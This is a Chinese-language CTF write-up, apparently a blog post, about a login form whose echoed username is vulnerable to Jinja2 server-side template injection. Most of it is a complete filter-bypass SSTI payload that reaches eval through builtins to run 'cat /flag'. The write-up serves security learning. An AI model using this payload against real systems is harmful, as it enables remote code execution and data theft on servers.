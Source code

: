 进入题目是一个登录框，点击登录可以回显用户名，经过尝试发现存在SSTI：

[![](https://img2022.cnblogs.com/blog/2957280/202209/2957280-20220914105747423-959995265.png)](https://img2022.cnblogs.com/blog/2957280/202209/2957280-20220914105747423-959995265.png)

经过Fuzz，发现过滤了 `_.'"[]`等字符，还有各种class、request、eval等关键字。  
需要注入也就是需要程序执行的代码如下：

```python
__import__('os').popen('cat /flag').read()
```

通过过滤器构造payload：

```python
{% set zero = (self|int) %}
{% set one = (zero**zero)|int %}
{% set two = (zero-one-one)|abs %}
{% set four = (two*two)|int %}
{% set five = (two*two*two)-one-one-one %}
{% set three = five-one-one %}
{% set nine = (two*two*two*two-five-one-one) %}
{% set seven = (zero-one-one-five)|abs %}
{% set space = self|string|min %}
{% set point = self|float|string|min %}
{% set c = dict(c=aa)|reverse|first %}
{% set bfh = self|string|urlencode|first %}
{% set bfhc = bfh~c %}
{% set slas = bfhc%((four~seven)|int) %}
{% set yin = bfhc%((three~nine)|int) %}
{% set xhx = bfhc%((nine~five)|int) %}
{% set right = bfhc%((four~one)|int) %}
{% set left = bfhc%((four~zero)|int) %}
{% set but = dict(buil=aa,tins=dd)|join %}
{% set imp = dict(imp=aa,ort=dd)|join %}
{% set pon = dict(po=aa,pen=dd)|join %}
{% set so = dict(o=aa,s=dd)|join %}
{% set ca = dict(ca=aa,t=dd)|join %}
{% set ls = dict(ls=x)|join %}
{% set ev = dict(ev=aa,al=dd)|join %}
{% set red = dict(re=aa,ad=dd)|join %}
{% set bul = xhx~xhx~but~xhx~xhx %}
{% set ini = dict(ini=aa,t=bb)|join %}
{% set glo = dict(glo=aa,bals=bb)|join %}
{% set itm = dict(ite=aa,ms=bb)|join %}
{% set pld = xhx~xhx~imp~xhx~xhx~left~yin~so~yin~right~point~pon~left~yin~ca~space~slas~(dict(flag=1)|join)~yin~right~point~red~left~right %}
{% for f,v in (self|attr(xhx~xhx~ini~xhx~xhx)|attr(xhx~xhx~glo~xhx~xhx)|attr(itm))() %}
    {% if f == bul %}
        {% for a,b in (v|attr(itm))() %}
            {% if a == ev %}
                {{b(pld)}}
            {% endif %}
        {% endfor %}
    {% endif %}
{% endfor %}
```
